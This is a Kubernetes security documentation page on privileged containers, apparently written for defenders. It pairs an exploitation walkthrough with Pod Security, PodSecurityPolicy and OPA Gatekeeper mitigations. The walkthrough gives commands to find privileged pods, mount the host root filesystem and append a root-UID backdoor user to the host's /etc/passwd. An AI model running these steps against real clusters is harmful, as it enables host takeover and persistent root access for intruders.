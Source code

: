 ```yaml
---
sidebar_position: 6
title: Privileged Containers
description: Understanding the risks of privileged containers in Kubernetes and implementing best practices to secure workloads.
---
```


# Privileged Containers

Privileged containers run with elevated permissions, granting them access to the host system's resources. This configuration can lead to severe security risks, including the ability to modify the host file system, access hardware devices, and escalate privileges to the host.

---

## Exploitation Steps: Privileged Container

An attacker identifies a privileged container in the Kubernetes cluster using kubectl:

```bash
kubectl get pods -o json | jq '.items[] | select(.spec.containers[].securityContext.privileged == true) | .metadata.name'
```

### 1. Gain Host Access via Privileged Container

The attacker can execute commands as root on the host system:

```bash
kubectl exec -it <privileged-pod> -- /bin/sh
```

### 2. Mount the Host File System

The attacker mounts the host's root file system to the privileged container:

```bash
mkdir /mnt/host
mount -o bind / /mnt/host
cd /mnt/host
ls -al
```

### 3. Create a Backdoor

The attacker adds a malicious user to the host /etc/passwd file, creating a backdoor:

```bash
echo 'malicious_user:x:0:0:root:/root:/bin/bash' >> /mnt/host/etc/passwd
```

### Result

The attacker gains persistent access to the host system, allowing them to execute commands as root, manipulate files, and bypass container isolation.

---

## Mitigation Techniques and Fixes

### 1. Avoid Running Privileged Containers

**Issue:** Privileged containers can bypass security boundaries and access the host.<br/>
**Fix:** Set **privileged: false** in the **PodSecurityContext**.

#### Example Pod Configuration

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: non-privileged-pod
spec:
  containers:
    - name: app-container
      image: nginx
      securityContext:
        privileged: false
```

### 2. Use Pod Security Standards (PSS)

**Issue:** Lack of security policies allows privileged containers to run.<br/>
**Fix:** Enforce **Pod Security Policies (PSP)** or **Pod Security Standards (PSS)**.

#### Example of a Restricted Pod Security Policy

```yaml
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
  name: restricted-psp
spec:
  privileged: false
  runAsUser:
    rule: MustRunAsNonRoot
  allowPrivilegeEscalation: false
  volumes:
    - configMap
    - emptyDir
    - projected
    - secret
    - downwardAPI
  seLinux:
    rule: RunAsAny
```

### 3. Implement Admission Controllers

**Issue:** Privileged containers can be created without restriction.<br/>
**Fix:** Use **admission controllers** to **block privileged containers**.

#### Example Using OPA Gatekeeper Policy

```yaml
apiVersion: templates.gatekeeper.sh/v1beta1
kind: ConstraintTemplate
metadata:
  name: k8sprivilegedcontainer
spec:
  crd:
    spec:
      names:
        kind: K8sPrivilegedContainer
  targets:
    - target: admission.k8s.gatekeeper.sh
      rego: |
        package k8sprivilegedcontainer

        violation[{"msg": msg}] {
          input.review.object.spec.containers[_].securityContext.privileged == true
          msg := "Privileged containers are not allowed"
        }
---
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sPrivilegedContainer
metadata:
  name: deny-privileged-containers
spec:
  match:
    kinds:
      - apiGroups: [""]
        kinds: ["Pod"]
```

---

## Conclusion

To mitigate risks associated with privileged containers:

- Disable privileged mode by setting **privileged: false** in the **securityContext**.
- Enforce **Pod Security Standards (PSS)** to restrict **risky configurations**.
- Use **admission controllers** to **prevent privileged container deployments**.
